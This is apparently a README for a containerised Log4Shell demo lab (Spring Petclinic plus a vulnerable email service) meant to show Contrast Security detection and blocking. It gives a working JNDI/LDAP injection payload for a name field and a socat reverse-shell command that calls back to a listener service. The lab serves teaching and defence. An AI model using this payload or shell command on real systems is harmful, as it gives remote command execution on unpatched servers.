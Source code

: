 ## Setup

## Contrast Configuration

Before Starting up, you will need to configure the agent, by setting the credentials in the EmailService/contrast_security.yaml and WebApplication/contrast_security.yam files.
During the docker build process it will download the latest agent version.
Whether Assess or Protect are enabled are controlled by environment variables in the docker-compose.yaml file. This allows you to quickly enable/disable Assess/Protect without rebuilding the docker images.
Just change the values and restart ( docker-compose up ).


Run the services up using docker ( from the root of the project )
```docker-compose up```

Once up, login to the log4shell service and open socat using the following command
```docker exec -it spring-petclinic-log4shell-service-1 bash -c "/ListenForShell.sh"```

Then open a browser and access Petclinic
http://localhost:8080
Login as admin : password
Add a new Owner and add the following to the first or last name
```${jndi:ldap://log4shell-service:1389/jdk8}```
Once the owner is saved, you will be able to execute commands from the log4shell terminal.
The commands are run on the EmailService OS.



## What Is Happening

When you send the payload to the Petclinic application via the Owner firstname/lastname the following occurs.
* Petclinic sends the Owner details to the Email Service
* The Email Service logs that information using a vulnerable version of log4j
* Log4j initiates a JNDI/LDAP connection to the Log4Shell service and downloads a class
* That class is executed within the Email Service, which in turn executes the following commmand on the underlying OS of the Email Service
  * "socat TCP4:log4shell-service:8082 EXEC:/bin/bash"
* This, uses Socat create a reverse shell which calls back to the Log4Shell Service, allowing the terminal in Log4Shell to execute arbitrary commands on the Email Service and see the results.

## How to Block
* This can be blocked by Protect by setting to BLOCK in the Email Service the log4shell or JNDI rules.




